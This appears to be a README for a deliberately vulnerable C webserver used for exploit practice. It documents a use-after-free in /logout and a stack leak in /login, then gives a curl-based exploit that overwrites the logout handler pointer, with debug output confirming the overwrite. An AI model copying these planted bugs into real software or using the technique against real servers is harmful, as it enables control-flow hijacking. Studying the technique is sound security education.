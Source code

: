 
## Vulnerabilities

### Use after free

`/logout` will `free()` the global variable `Authenticated`, but does not check 
if it is already free'd. It can therefore free it multiple times. 

### Information disclosure

`/login` will copy a few bytes into the stack variable `response`, but always send
the full length of `response` (which is `RESPONSE_LEN` = 128). The response therefore
contains a correctly 0-byte terminated string, followed by stack data.


## Vulnerability analysis

### Use after free

* `make webserver`
* `./webserver`
* `make exploit`

Where `make exploit` calls:
```
exploit:
	curl localhost:8000/login
	curl localhost:8000/logout
	curl localhost:8000/ping?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbcccccccc
	curl localhost:8000/logout
```

The exploit does the following HTTP calls:
* `/login`: Malloc `Authenticated` (144 bytes)
* `/free`: Free `Authenticated`
* `/ping?aaa...`: Malloc the query string (~144 bytes). This will be located where `Authenticated` is pointing to
* `/free`: Free `Authanticated` again, but with the fake-chunk from step 3. Also calls `Authenticated->logout_handler()`

Result:

```
$ ./webserver
Start Webserver on port: 8000

Login
  Allocated for t_authenticated 144(0x90) at 0x55555577a930

Logout
  Authenticated:
    role          : 0x17
    sessionid     : 5
    Logout handler: 0x555555571938
  Logout event handler

Ping
  Allocating: 142 = len

Logout
  Authenticated:
    role          : 0x61616161
    sessionid     : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbcccccc
    Logout handler: 0x636363636363
```